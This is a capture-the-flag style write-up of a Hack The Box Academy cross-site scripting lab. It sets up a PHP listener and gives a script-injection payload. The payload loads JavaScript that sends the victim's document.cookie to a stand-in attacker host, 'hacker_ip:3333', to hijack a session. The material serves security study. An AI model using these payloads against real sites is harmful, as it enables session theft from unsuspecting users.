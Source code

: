 We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
 In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

**Questions:**

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.
**Answers:**

First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```mkdir /tmp/tmpserver```

```cd /tmp/tmpserver```

```nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;```

```nano index.php```

[tmpserver](https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/tmpserver.png)

[php-code](https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/HTB-CROSS_SITE-SCRIPTING-XSS-.png)
Let's start your server

```sudo php -S 0.0.0.0:3333```

Now let's test the input fields on the target site:

```"><script src=http://hacker_ip:3333/myscript.js></script>```

[start server](https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/php-server.png)

[inputs](https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/inputs.png)

Great, it works!

Let's check our cookie file.

[cat cookies](https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/cookie.png)

Happy Hacking!

[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)


